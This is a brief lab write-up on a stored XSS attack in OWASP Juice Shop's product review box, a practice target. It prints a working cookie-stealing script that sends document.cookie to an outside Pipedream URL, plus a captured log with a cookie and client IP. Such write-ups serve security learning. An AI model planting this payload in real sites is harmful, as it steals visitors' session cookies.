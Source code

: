 # Stored XSS on Juice Shop (Cookie Stealer Lab)

I practiced a Stored XSS attack inside `OWASP Juice Shop`, targeting the product review section.
Review box under a product (Apple Juice). I wrote a fake review like:
```js
<script>
  new Image().src = "https://eodo5udpevensc2.m.pipedream.net/?c=" + document.cookie;
</script>
```
This payload stored successfully and executed when the page reloaded.

## What the payload above does
- Injects a `<script>` into the DOM
- Uses new `Image().src` to send a GET request with document.cookie to my Pipedream server
- Works silently—no alert, no prompt, just data theft

## Server Responsse
Captured this when someone viewed the product:
```js
query
  c: language=en; welcomebanner_status=dismiss; ...
client_ip: 102.176.75.142
```
It means the victim’s browser executed the script and leaked their cookie.
